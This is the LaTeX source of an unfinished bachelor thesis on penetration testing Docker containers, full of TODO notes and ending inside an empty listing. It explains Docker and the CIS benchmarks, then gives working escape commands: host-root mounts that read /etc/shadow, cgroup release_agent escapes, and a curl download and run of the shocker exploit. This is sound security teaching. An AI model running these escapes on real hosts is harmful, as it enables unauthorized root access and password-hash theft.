\documentclass[11pt,a4paper]{report}

\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{textcomp}
\usepackage{listings}
\usepackage[nottoc]{tocbibind}
\usepackage[bottom]{footmisc}
\usepackage{todonotes}
\usepackage{multicol}
\usepackage[hyphens,spaces,obeyspaces]{url}
\usepackage[hidelinks]{hyperref}

\lstset{basicstyle = \ttfamily,
        columns = fullflexible,
        keepspaces = true,
        backgroundcolor = \color{lightgray},
        showstringspaces = false,
        upquote = true,
        breaklines = true,
}

\begin{document}
    \hypersetup{pageanchor=false}
    \begin{titlepage}
        \begin{center}
            \textsc{\LARGE Bachelor thesis\\Computing Science}\\[1.5cm]
            
\includegraphics[height=100pt]{resources/images/logo}

            \vspace{0.4cm}
            \textsc{\Large Radboud University}\\[1cm]
            \hrule
            \vspace{0.4cm}
            \textbf{\huge Creating a Methodology for Penetration Testing of Docker Containers}\\[0.4cm]
            \hrule
            \vspace{2cm}
            \begin{minipage}[t]{0.45\textwidth}
                \begin{flushleft} \large
                    \textit{Author:}\\
                    Joren Vrancken\\
                    s4593847
                \end{flushleft}
            \end{minipage}
            \begin{minipage}[t]{0.45\textwidth}
                \begin{flushright} \large
                    \textit{Supervisor:}\\
                    Associate professor, Erik Poll\\
                    \texttt{erikpoll@cs.ru.nl}\\[1.3cm]
                    \textit{Internship supervisor:}\\
                    Dave Wurtz\\
                    \texttt{dave.wurtz@secura.com}\\[1.3cm]
                    \textit{Second internship supervisor:}\\
                    Geert Smelt\\
                    \texttt{geert.smelt@secura.com}
                \end{flushright}
            \end{minipage}

            \vfill {\large \today}
            \hfill

            \todo[inline]{TODOs are shown like this.}
        \end{center}
    \end{titlepage}

    \begin{abstract}
Containerization software has become extremely popular to streamline software deployments in the last few years. That has made it a very import attack surface. This paper looks at how one should go about testing the security of the Docker containers. It first looks at known vulnerabilities and misconfigurations that impact the security. It links those to the Docker CIS Benchmark (security guidelines). It then provides a methodology for Secura to test the security of Dockers in the networks of their clients.
\end{abstract}

    \hypersetup{pageanchor=true}

    \tableofcontents

    \chapter{Introduction}
\todo[inline]{Not about app vulnerabilities, but specifically about Docker}
\todo[inline]{Docker is not a security framework}
\todo[inline]{What is the added security value of Docker?}

Secura, a company specializing in digital security, performs security assessments for clients. In these assessments, Secura evaluates vulnerable parts of the private and public network of their clients. They would like to improve those assessments by also looking into containerization software their clients may be running.

\hfill

Containerization software allows developers to package software into easily reproducible packages.
It removes the tedious process of installing the right dependencies to run software, because the dependencies and necessary files are neatly isolated in the container. This also allows multiple versions of the same software to run simultaneous on a server, because every instance runs in its own container.

The de facto industry standard is called Docker. Docker allows developers to package software into images and run those instances as containers.

Docker streamlines and significantly simplifies software development and deployment. That is why many companies use Docker to develop, test and deploy (part of) their IT infrastructure someway or another. This makes it very interesting from a security perspective. A security problem with Docker could have a large impact on organizations.

\hfill

This research paper describes possible security problems with Docker (vulnerabilities and misconfigurations) and how those can be used during security assessments.

    \chapter{Background}\label{chapter:background}

In this chapter we will discuss the necessary background information and preliminaries. First we will look at what containerization software is and how it compares to virtualization. We will also look at important Docker concepts, how to use them and how Docker works internally. Finally, we introduce the CIS Docker Benchmarks.

\section{Containerization Software}\label{background:containerization}
\todo[inline]{Jos: Better models with examples}
Containerization software isolates processes running on a host from each other.
A process in a container sees a different part of the host system than processes outside of the container. A process inside a container sees a different file system, network interfaces and users than processes outside of the container. Processes inside the container can only see other processes inside the container.

\begin{figure}[ht]
    \centering
    \begin{subfigure}[t]{.45\textwidth}
        \centering
        
\begin{tikzpicture}[x=0.75pt,y=0.75pt,yscale=-1,xscale=1]
            % Process A Rectangle
            \draw (0,25) -- (95,25) -- (95,55) -- (0,55) -- cycle ;
            \draw (47.5,40) node {Process A};

            % Process B Rectangle
            \draw (105,25) -- (200,25) -- (200,55) -- (105,55) -- cycle ;
            \draw (152.5,40) node {Process B};

            % Host Rectangle
            \draw (0,65) -- (200,65) -- (200,95) -- (0,95) -- cycle ;
            \draw (100, 80) node {Linux Host};
        \end{tikzpicture}
        \caption{Two processes.}\label{subfig:processes}
    \end{subfigure}
    \begin{subfigure}[t]{.45\textwidth}
        \centering
        
\begin{tikzpicture}[x=0.75pt,y=0.75pt,yscale=-1,xscale=1]
            % Process A Rectangle
            \draw (0,25) -- (90,25) -- (90,55) -- (0,55) -- cycle ;
            \draw (45,40) node {Process A};

            % Process B container Rectangle
            \draw (100,0) -- (200,0) -- (200,60) -- (100,60) -- cycle ;
            \draw (152.5,15) node {Container};

            %% Process B Rectangle
            \draw (105,25) -- (195,25) -- (195,55) -- (105,55) -- cycle ;
            \draw (150,40) node {Process B};

            % Host Rectangle
            \draw (0,65) -- (200,65) -- (200,95) -- (0,95) -- cycle ;
            \draw (100, 80) node {Linux Host};
        \end{tikzpicture}
        \caption{One process in a container.}\label{subfig:container}
    \end{subfigure}
    \caption{}\label{fig:with-without-container}
\end{figure}

If we look at \autoref{fig:with-without-container}, we see two scenarios. \autoref{subfig:processes} is the normal way to run processes. The operating system starts processes that can communicate with other processes. Their view on the file system is the same.
In \autoref{subfig:container} one of the processes runs inside a container. These processes cannot communicate with one another. If Process A looks at the files in \lstinline{/tmp}, it accesses a different part of the file system than when Process B looks at the files in \lstinline{/tmp}\footnote{Access to files on the host has to be explicitly given (as discussed in \autoref{subsection:data-persistence}).}. Process B can not even see that Process A exists.

\medskip

Process A and Process B see such a different part of the host system that to Process B it looks like it is running on a wholly different system.

\subsection{Advantages of Containerization}
\todo[inline]{Jos: better explanation}
Containers can be made into easily deployable packages (called images). These images only contain the necessary files for specific software to run. Other files, libraries and binaries are shared between the host operating system (the system running the container). This allows developers to create lightweight software packages containing only the necessary dependencies.

\medskip

Containers also make it possible to run multiple versions of the same software on one host. Each container can contain a specific version and all the containers run on the same host. Because the containers are isolated from each other, their incompatible dependencies do not pose a problem.

\medskip

For example, if we want to run an instance of Wordpress\footnote{A very popular content management system to build websites with.}, we do not need to install all the Wordpress dependencies. We only need to download the container that the Wordpress developers created, which includes all the necessary dependencies.

Similarly, if we want to move the Wordpress instance from one host to another, we just have to copy the Wordpress database and run the image on the new host. Even if the new host is a completely different operating system.

If we want to test a newer version of Wordpress on the same host, we only have to run the different container on the same host. The incompatible dependencies of the two Wordpress instances are not a problem, because they see different parts of the file system and do not even see each other's processes.

\medskip

The simplicity that containerization brings, makes containerization very popular in software development, maintenance and deployment.

\pagebreak

\subsection{Virtualization}
\todo[inline]{Jos: Hypervisior separate from host in image}
Virtualization is an older, similar technique to isolate software. In virtualization, a whole system is simulated on top of the host (called the hypervisor). This new virtual machine is called a guest. The guest and the host do not share any system resources. This has some advantages. For example, it allows running a completely different guest operating system (e.g.\ a Windows guest on a Linux host).

\begin{figure}[ht]
    \centering
    \begin{subfigure}[t]{.45\textwidth}
        \centering
        
\begin{tikzpicture}[x=0.75pt,y=0.75pt,yscale=-1,xscale=1]
            % VM Process A Rectangle
            \draw (0,0) -- (100,0) -- (100,100) -- (0,100) -- cycle ;
            \draw (50,10) node {{\small Virtual Machine}};

            % OS Process A Rectangle
            \draw (5,20) -- (95,20) -- (95,95) -- (5,95) -- cycle ;
            \draw (50,30) node {OS};

            % Process A Rectangle
            \draw (10,40) -- (90,40) -- (90,70) -- (10,70) -- cycle ;
            \draw (50,55) node {Process A};

            % VM Process B Rectangle
            \draw (105,0) -- (205,0) -- (205,100) -- (105,100) -- cycle ;
            \draw (155,10) node {{\small Virtual Machine}};

            % OS Process B Rectangle
            \draw (110,20) -- (200,20) -- (200,95) -- (110,95) -- cycle ;
            \draw (155,30) node {OS};

            % Process B Rectangle
            \draw (115,40) -- (195,40) -- (195,70) -- (115,70) -- cycle ;
            \draw (155,55) node {Process B};

            % Hypervisor
            \draw (0,105) -- (205,105) -- (205,120) -- (0,120) -- cycle ;
            \draw (102.5,112.5) node {{\small Hypervisor}};

            % Linux Host
            \draw (0,125) -- (205,125) -- (205,155) -- (0,155) -- cycle ;
            \draw (102.5,140) node {Linux Host};
        \end{tikzpicture}
        \caption{Virtual Machines\protect\footnotemark.}
    \end{subfigure}
    \begin{subfigure}[t]{.45\textwidth}
        \centering
         
\begin{tikzpicture}[x=0.75pt,y=0.75pt,yscale=-1,xscale=1]
            % Container Process A Rectangle
            \draw (0,0) -- (97.5,0) -- (97.5,50) -- (0,50) -- cycle ;
            \draw (50,10) node {Container};

            % Process A Rectangle
            \draw (5,20) -- (95,20) -- (95,45) -- (5,45) -- cycle ;
            \draw (50,32.5) node {Process A};

            % Container Process B Rectangle
            \draw (102.5,0) -- (200,0) -- (200,50) -- (102.5,50) -- cycle ;
            \draw (150,10) node {Container};

            % Process B Rectangle
            \draw (105,20) -- (195,20) -- (195,45) -- (105,45) -- cycle ;
            \draw (150,32.5) node {Process B};

            % Host Rectangle
            \draw (0,55) -- (200,55) -- (200,85) -- (0,85) -- cycle ;
            \draw (100, 70) node {Linux Host};
        \end{tikzpicture}
        \caption{Containers.}
    \end{subfigure}
    \caption{}
\end{figure}
\footnotetext{Hypervisors can also run on the bare metal. This removes the need for a host OS, which adds security.}

Because containerization software shares many resources with the host, it is a lot faster and more flexible than virtualization. Where virtualization needs to start a whole new operating system, containerization only needs to start a single process.

\subsection{The Impact of Containers on Security}
\todo[inline]{Jos: explain RCE}
A Docker container isolates software from the host, but does not change it. This means that vulnerabilities in software are not affected by Dockerizing that software. However, the impact of those vulnerabilities is decreased, because the vulnerability exists in an isolated environment.

If, for example, there exists a remote code execution (RCE) vulnerability in Wordpress. Running Wordpress in a Docker container does not fix the vulnerability. An attacker is still able to exploit it. But the attacker is far less likely to access the host system, because the exploited software is isolated from the host system because of Docker.

\medskip

Because a container uses the same kernel and resources as the host, a \lstinline{root} exploit (i.e.\ an exploit that allows unprivileged users to escalate their privileges) can be just as effective inside as outside of the container, because the target (e.g.\ the kernel) is the same. CVE--2016--5195(Dirty Cow)\footnote{\url{https://dirtycow.ninja/}} is a good example of an exploit that allows container escapes\cite{Dirty-Cow-Escape}, because it attacks the kernel of the host.

\section{Docker}
\todo[inline]{Docker on Windows}
\todo[inline]{Research: Secure Computing Mode Profiles}
\todo[inline]{\href{https://itnext.io/chroot-cgroups-and-namespaces-an-overview-37124d995e3d}{chroot, cgroups and namespaces}}
\todo[inline]{\href{https://www.secura.com/blog-hacklu2018-docker-security}{Docker, A brief history and security considerations for modern environments}}

\hfill

The concept of containerization has been around a long time, but it only gained traction as serious way to package, distribute and run software in the last few years. This is mostly because of Docker.

\hfill

Docker was released in 2013 and it did not only offer a containerization platform, but also a way to distribute the containers. This allows developers and companies to create packages that are much more easily run.

\hfill

For example, someone that wants to run an instance of Wordpress\footnote{A very popular content management system to build websites with.}, does not need to install all the Wordpress dependencies. They only need to download the Docker image that the Wordpress developers created.
Similarly, if they want to move the Wordpress instance from one host to the other, they just have to copy over their database and run the Docker image on the new host. Even if the new host is a completely different operating system.

\subsection{Docker Concepts}
Docker is based on four concepts: Docker daemon, Docker images, Docker containers and \lstinline{Dockerfile}s.

\subsubsection{Docker daemon}
The daemon is a service that runs on the host machine. It manages all things related to Docker on that machine. For example if the user wants to build an image or a container needs to restart the docker daemon. It is good to note that, because everything related to Docker is handled by the daemon and Docker has access to all resources of the host, having access to Docker should be viewed as equivalent to having \lstinline{root} access to the host\footnote{\url{https://docs.docker.com/engine/security/security/\#docker-daemon-attack-surface}}.

\subsubsection{Docker images}
A Docker image is packaged software. It is a distributable set of layers. The first layer describes the base of the image. This is either an existing image or nothing (referred to as \lstinline{scratch}). Each layer on top of that is a change to the layer before. For example, if you add a file or run an command it adds a new layer.

\subsubsection{Docker containers}
A container is an instance of a Docker Image. If you run software packaged as a Docker image, you create a container based on that image. If you want to run two instances of the same Docker image, you can create two containers.

\subsubsection{\lstinline{Dockerfile}s}
A \lstinline{Dockerfile} describes what a Docker image is made of. It describes the steps to build the image. Lets look at a very simple example:

\begin{lstlisting}[caption={Very Basic \lstinline{Dockerfile}},label={dockerfile:simple},captionpos=b]
FROM alpine:latest
LABEL maintainer="Joren Vrancken"
CMD ["echo", "Hello World"]
\end{lstlisting}

These three instructions tell the Docker engine how to create a new Docker image.
The full instructionset can be found in the \lstinline{Dockerfile} reference\footnote{\url{https://docs.docker.com/engine/reference/builder/}}

\begin{enumerate}
    \item The \lstinline{FROM} instruction tells the Docker engine what to base the new Docker image on. Instead of creating an image from scratch (a blank image), we use an already existing image as our basis.

    \item The \lstinline{LABEL} instruction sets a key value pair for the image. There can be multiple LABEL instructions. These key value pairs get packaged and distributed with the image.

    \item The \lstinline{CMD} instruction sets the default command that should be run and which arguments should be passed to it.
\end{enumerate}

We can use this to create a new image and container from that image.
\begin{lstlisting}[caption={Creating a Docker container from a \lstinline{Dockerfile}},label={docker:container},captionpos=b]
$ docker build -t thesis-hello-world .
$ docker run --rm --name=thesis-hello-world-container thesis-hello-world
\end{lstlisting}

We first create a Docker image (called \lstinline{thesis-hello-world}) using the \lstinline{docker build} command and then create and start a new container (called \lstinline{thesis-hello-world-container}) from that image.

\subsubsection{Data Persistence}
Without additional configuration, a Docker container does not have persistence storage. Its storage is maintained when the container is stopped, but not when the container is removed.

\subsubsection{Networking}
\todo[inline]{iptables}
\todo[inline]{\url{https://github.com/docker/libnetwork/blob/master/docs/design.md}}

When a Docker container is created Docker creates a network sandbox for that container and (by default) connects it to an internal bridge network. This gives the container its own networking resources such as a IPv4 address\footnote{IPv6 support is not enabled by default.}, routes and DNS entries. All outgoing traffic is routed through a bridge interface (by default).

\hfill

Incoming traffic is possible by routing traffic for specific ports from the host to the container.
Specifying which ports on the host are routed to which ports on the container is done when a container is created. If we, for example, want to expose port \lstinline{80} to the Docker image created from the \hyperref[dockerfile:simple]{first \lstinline{Dockerfile}} we can execute the following commands.

\begin{lstlisting}[caption={Creating a Docker container with exposed port},label={docker:publish},captionpos=b]
$ docker build -t thesis-hello-world .
$ docker run --rm --publish 8000:80 --name=thesis-hello-world-container thesis-hello-world
\end{lstlisting}

The first command creates a Docker image using the \lstinline{Dockerfile} and we then create (and start) a container from that image. We ``publish'' port \lstinline{8000} on the host to port \lstinline{80} of the container. This means that, while the container is running, all traffic from port \lstinline{8000} on the host is routed to port \lstinline{80} of the container.

\subsubsection{Docker internals}
\todo[inline]{\href{https://medium.com/@saschagrunert/demystifying-containers-part-i-kernel-space-2c53d6979504}{Demystifying Containers Part I Kernel Space}}
\todo[inline]{\href{https://medium.com/@saschagrunert/demystifying-containers-part-ii-container-runtimes-e363aa378f25}{Demystifying Containers Part II Container Runtimes}}
\todo[inline]{\href{https://medium.com/@saschagrunert/demystifying-containers-part-iii-container-images-244865de6fef}{Demystifying Containers Part III Container Images}}

\subsection{docker-compose}
\todo[inline]{Secrets in docker-compose can be easily found, even without docker group permissions}

\subsection{Registries}
\todo[inline]{Official images not always standard images}

Docker images are distributable through so called registries. A registry is a server (that anybody can host), that stores Docker images. When a client does not have a Docker image that it needs, it can contact a registry to download that image.

\hfill

The most popular (and public) registry is Docker Hub, which is run by company that develops Docker.
Anybody can create a Docker Hub account and start creating images that anybody can download. Docker Hub also provides default images for popular software.

\section{CIS Docker Benchmarks}
The Center for Internet Security (or CIS for short) is a non-profit organization that provides best practice solutions for digital security. For example, they provide security hardened virtual machine images that are configured for optimal security.

\hfill

The CIS Benchmarks are guidelines and best practices on security on many different types of software. These guidelines are freely available for anyone and can be found on their site\footnote{\url{https://cisecurity.org/cis-benchmarks/}}. Many companies (e.g. Secura) use the CIS Benchmarks as a baseline to assess the security of systems.

\hfill

They also provide guidelines on Docker\footnote{Only Docker CE, the community edition. It does not cover Docker EE, the enterprise edition.}. The latest version (1.2.0) contains 115 guidelines. These are sorted by topic (e.g. Docker daemon and configuration files). In \hyperref[appendix:CIS-Benchmark-Example]{the appendix} you will find an example guideline from the latest Docker CIS Benchmark.


    \chapter{Known Vulnerabilities in Docker}\label{chapter:vulnerabilities}
\todo[inline]{introduction}
In this chapter we will look at Docker from a vulnerability analysis perspective. First we will look conceptually at Docker from a security perspective by examining the attack surface of Docker on an host and the various attacker models that come with it. Then we look at the countermeasures built-in Docker and Linux to prevent or reduce the impact of security problems. We then look at some interesting, practical examples of security problems in Docker. These are split into misconfigurations and security related software bugs.

\medskip

Software bugs and misconfigurations can both be security problems, but they differ in who made the mistake. A \emph{bug} is a problem in a program itself. For example, a buffer overflow is a bug. The problem lies solely in the program itself. To fix it, the code of the program needs to be changed. \emph{Misconfigurations}, on the other hand, are security problems that come from wrong usage of a program. The program is incorrectly configured and that creates a situation that might be exploitable to an attacker. For example, a world-readable file containing passwords is a misconfiguration. To fix a misconfiguration, the user should change the configuration of the program. The developers of the program can only recommend users to configure it correctly.

\medskip

In the \autoref{chapter:pentesting}, we will look at how these vulnerabilities can be used during a penetration test.

\section{Misconfigurations}\label{misconfigurations}
In this section, we will take a look at misconfigurations of Docker and the impact those misconfigurations have. For each misconfiguration, we will look at a practical example. We will also look at which guidelines from the Docker CIS Benchmark cover these misconfigurations.

\subsection{Docker Permissions}\label{subsection:docker-permissions}
A common (and notorious) misconfiguration is giving unprivileged users access to Docker, which allows them to create, start and otherwise interact with Docker containers (through the Docker daemon). This is dangerous because this allows the unprivileged users to access all files as \lstinline{root}. The Docker documentation says\footnote{\url{https://docs.docker.com/engine/security/security/}}:
\begin{quote}
\emph{First of all, only trusted users should be allowed to control your Docker daemon. This is a direct consequence of some powerful Docker features. Specifically, Docker allows you to share a directory between the Docker host and a guest container; and it allows you to do so without limiting the access rights of the container. This means that you can start a container where the /host directory is the / directory on your host; and the container can alter your host filesystem without any restriction}.
\end{quote}

In short, because the Docker daemon runs as \lstinline{root}, if a user adds a directory as a volume to a container, that file is accessed as \lstinline{root}. There a few ways for unprivileged users to access Docker. In this section we will look at those.

\subsubsection{\texorpdfstring{\lstinline{docker}}{docker} Group}
Every user in the \lstinline{docker} group is allowed to use Docker (see \autoref{background:docker-socket}). This allows access management of Docker usage. Sometimes a system administrator does not want to do proper access management and adds every user to the \lstinline{docker} group, because that allows everything to run smoothly. This misconfiguration, however, allows every user to access every file on the system, as illustrated in \autoref{listing:docker-group}.

\medskip

Let's say we want the password hash of user \lstinline{admin} on a system where we do not have \lstinline{sudo} privileges, but we are a member of the \lstinline{docker} group.

\begin{lstlisting}[caption={Docker \lstinline{group} exploit example.},captionpos=b,label={listing:docker-group}]
(host)$ sudo -v
Sorry, user unpriv may not run sudo on host.
(host)$ groups | grep -o docker
docker
(host)$ docker run -it --rm -v /:/host ubuntu:latest bash
(cont)# grep admin /host/etc/shadow
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

In \autoref{listing:docker-group} we first check our permissions. We do not have \lstinline{sudo} permissions, but we are a member of the \lstinline{docker} group. This allows us to create a container with \lstinline{/} mounted as volume and access any file as \lstinline{root}. This includes the file with user password hashes (i.e.\ \lstinline{/etc/passwd}).

\medskip

This is covered by the CIS Docker Benchmark guideline 1.2.2 (Ensure only trusted users are allowed to control Docker daemon).

\subsubsection{The World Readable and Writable Docker Socket}
By default, only \lstinline{root} and every user in the \lstinline{docker} group have access to Docker, because they have read and write access to the Docker socket. However, some administrators set the permissions to read and write for all users (i.e. \lstinline{666}), giving all users access to the Docker daemon.

\begin{lstlisting}[caption={All users can use Docker if they have read and write access to the Socket},captionpos=b,label={listing:read-write-socket}]
(host)$ groups | grep -o docker
(host)$ ls -l /var/run/docker.sock
srw-rw-rw- 1 root docker 0 Dec 20 13:16 /var/run/docker.sock
(host)$ docker run -it --rm -v /:/host ubuntu:latest bash
(cont)# grep admin /host/etc/shadow
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

In \autoref{listing:read-write-socket}, we see that we are not a member of the Docker group, but because every user has read and write access (i.e.\ the read and write permissions are set for \lstinline{other}) we are still able to use Docker.

\subsubsection{\texorpdfstring{\lstinline{setuid}}{setuid} Bit}\label{subsubsection:setuid}
Another way system administrators might skip proper access management is to set the \lstinline{setuid} bit on the \lstinline{docker} binary.

\medskip

The \lstinline{setuid} bit is a permission bit in Unix, that allows users to run binaries as the owner (or group) of the binary instead of themselves.
This is useful in specific cases. For example, users should be able to change their own passwords, but should not be able to read password hashes of other users. That is why the \lstinline{passwd} binary (which is used to change a users password) has the \lstinline{setuid} bit set. A user can change their password, because \lstinline{passwd} is run as \lstinline{root} (the owner of \lstinline{passwd}) and, of course, \lstinline{root} is able to read from and write to the password file. In this case the \lstinline{setuid} bit is not a security issue, because \lstinline{passwd} asks for the user's password itself and will only change specific entries in the password file.

\medskip

If a system is misconfigured by having the \lstinline{setuid} bit set for the \lstinline{docker} binary, a user will be able to execute Docker as \lstinline{root} (the owner of \lstinline{docker} binary). Just like before, we can easily recreate this attack.

\begin{lstlisting}[caption={Docker \lstinline{setuid} exploit example.},captionpos=b, label={listing:setuid}]
(host)$ sudo -v
Sorry, user unpriv may not run sudo on host.
(host)$ groups | grep -o docker
(host)$ ls -halt /usr/bin/docker
-rwsr-xr-x 1 root root 85M okt 18 17:52 /usr/bin/docker
(host)$ docker run -it --rm -v /:/host ubuntu:latest bash
(cont)# grep admin /host/etc/shadow
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

In \autoref{listing:setuid} we see that we are not a part of the \lstinline{docker} group, but we can still run \lstinline{docker} because the \lstinline{setuid} bit (and the execute bit for all users) is set.

\medskip

This is not covered by the CIS Docker Benchmark guidelines. There are multiple guidelines about correct file and directory permissions, but none cover the binaries.

\subsection{\texorpdfstring{\lstinline{--privileged}}{--privileged} Flag}

Docker has a special privileged mode\cite{Docker-in-Docker-blog}. This mode is enabled if a container is created with the \lstinline{--privileged} flag and it enables access to all host devices and kernel capabilities. This is a very powerful mode and enables some very useful features (e.g\ building Docker images inside a Docker container). But it is also very dangerous as those kernel features allow an attacker inside the container to escape and access the host.

\hfill

A simple example of this, is using a feature in \lstinline{cgroups}\cite{CGroup-Docs}. If a \lstinline{cgroup} does not contain any processes anymore, it is released. It is possible to specify a command that should be run in case that happens (called a \lstinline{release_agent}). It is possible to define such a \lstinline{release_agent} in a privileged docker. If the \lstinline{cgroup} is released, the command is run on the host\cite{TrailOfBits-Docker-Escape}.

\hfill

We can look at a proof of concept of this attack developed by security researcher Felix Wilhelm\cite{Felix-Wilhem-Tweet}.
\begin{lstlisting}[caption={Docker escape using \lstinline{cgroups} (privileged)},captionpos=b]
(host)$ docker run -it --rm --privileged ubuntu:latest bash
(cont)# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
(cont)# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
(cont)# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
(cont)# touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps >'"$t/o" >/c;
(cont)# chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
\end{lstlisting}

This proof of concept creates a new \lstinline{cgroup}, sets a \lstinline{release_agent} and releases it. In this case the \lstinline{release_agent} runs \lstinline{ps} and writes the output to the root of the container.

\subsection{Capabilities}\label{misconfigurations:subsection:capabilities}
As we saw in \autoref{protection-mechanisms:subsection:capabilities}, in order to perform privileged actions in the Linux kernel, a process needs the relevant \lstinline{capability}. Docker containers are started with minimal capabilities, but it is possible to add extra capabilities at runtime. Giving containers extra capabilities gives the container permission to perform certain actions. Some of these actions allow Docker escapes. We will look at two such capabilities in the following sections.

\medskip

The CIS Docker Benchmark covers all of these problems in one guideline: 5.3 (Ensure that Linux kernel capabilities are restricted within containers).

\subsubsection{\texorpdfstring{\lstinline{CAP_SYS_ADMIN}}{CAP SYS ADMIN}}\label{CAP_SYS_ADMIN}
The Docker escape by Felix Wilhelm~\cite{Felix-Wilhem-Tweet} we used in \autoref{subsection:privileged} needs to be run in privileged mode to work, but it can be rewritten to only need the permission to run \lstinline{mount}~\cite{TrailOfBits-Docker-Escape}, which is granted by the \lstinline{CAP_SYS_ADMIN} capability.

\todo[inline]{Geert: Explain using line numbers}
\begin{lstlisting}[caption={Docker escape using \lstinline{CAP_SYS_ADMIN}.},captionpos=b]
(host)$ docker run --rm -it --cap-add=CAP_SYS_ADMIN --security-opt apparmor=unconfined ubuntu /bin/bash
(cont)# mkdir /tmp/cgrp
(cont)# mount -t cgroup -o rdma cgroup /tmp/cgrp
(cont)# mkdir /tmp/cgrp/x
(cont)# echo 1 > /tmp/cgrp/x/notify_on_release
(cont)# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
(cont)# echo "$host_path/cmd" > /tmp/cgrp/release_agent
(cont)# echo '#!/bin/sh' > /cmd
(cont)# echo "ps aux > $host_path/output" >> /cmd
(cont)# chmod a+x /cmd
(cont)# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
(cont)# cat /output
\end{lstlisting}

Unlike before, instead of relying on \lstinline{--privileged} to give us write access to a \lstinline{cgroup}, we just need to mount our own. This gives us exactly the same scenario as we saw in \autoref{subsection:privileged}. We use a \lstinline{release_agent} to run code on the host. The only difference being that we have to do some manual work ourselves.

\subsubsection{\texorpdfstring{\lstinline{CAP_DAC_READ_SEARCH}}{CAP DAC READ SEARCH}}
Before Docker 1.0.0 \lstinline{CAP_DAC_READ_SEARCH} was added to the default capabilities that a containers are given. But this capability allows a process to escape its the container~\cite{Docker-Shocker-Seclists}. A process with \lstinline{CAP_DAC_READ_SEARCH} is able to bruteforce the internal index of files outside of the container. To demonstrate this attack a proof of concept exploit was released~\cite{Docker-Shocker}~\cite{Docker-Shocker-Analysis}. This exploit has been released in 2014, but still works on containers with the \lstinline{CAP_DAC_READ_SEARCH} capability.

\medskip

\begin{lstlisting}[caption={Docker escape using \lstinline{CAP_DAC_READ_SEARCH}.},captionpos=b]
(host)$ curl -o /tmp/shocker.c http://stealth.openwall.net/xSports/shocker.c
(host)$ sed -i "s/\/.dockerinit/\/tmp\/a.out/" shocker.c
(host)$ cc -Wall -std=c99 -O2 shocker.c -static
(host)$ docker run --rm -it --cap-add=CAP_DAC_READ_SEARCH -v /tmp:/tmp busybox sh
(cont)# /tmp/a.out
...
[!] Win! /etc/shadow output follows:
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

The exploit needs a file with a file handle on the host system to properly work. Instead of the default \lstinline{/.dockerinit} (which is no longer created in newer versions of Docker) we use the exploit file itself \lstinline{/tmp/a.out}. We start a container with the \lstinline{CAP_DAC_READ_SEARCH} capability and run the exploit. It prints the password file of the host (i.e. \lstinline{/etc/shadow}).

\subsection{Docker Engine API}
The Docker Daemon runs a RESTful\footnote{\url{https://restfulapi.net/}} API\footnote{\url{https://docs.docker.com/engine/api/v1.40/}} that is used to communicate with the Docker Daemon. For example, when an user executes a Docker client command, it actually makes a request to the API. By default the API listens on a UNIX socket accessible through \lstinline{/var/run/docker.sock}, but it also possible to make it listen on a port. This makes it possible for anybody in the \lstinline{docker} group (and \lstinline{root}) to make HTTP requests. For example the following commands (to see all containers) produce the same output (albeit in a different format). The first one is a command using the Docker client and the second is a HTTP request (using \lstinline{curl}\footnote{\url{https://curl.haxx.se/}}).
\begin{lstlisting}[caption={Docker client and Socket},captionpos=b]
(host)$ docker ps -a
...
(host)$ curl --unix-socket /var/run/docker.sock -H 'Content-Type: application/json' "http://localhost/containers/json?all=1"
...
\end{lstlisting}

\hfill

In some cases, it might be possible to access the API when it is not possible to access the Docker client, but because API access gives the same exact possibilities as having access to the Docker client, this is very dangerous\cite{The-Dangers-Of-Docker-Sock}.
However, giving containers access to the API (by adding the socket as a volume) is a common practice, because it allows containers to monitor and analyse other containers.

\subsubsection{Container Escapes}
If the \lstinline{/var/run/docker.sock} is added as a volume to a container, the container has access to the API. This means the process in the container has full access to Docker on the host. This can be used to escape, because the container can create another container with arbitrary volumes and commands. It is even possible to create an interactive shell in another container\cite{Escape-Socket-Shell}.

\hfill

Lets say we want to get the password hash of an user called \lstinline{admin} on the host. We are in a container that has access to \lstinline{/var/run/docker.sock}. We use the API to start another Docker container on the host, that has access to the password hash (located in \lstinline{/etc/shadow}). We read the password file, by looking at the logs of the container that we just started.

\begin{lstlisting}
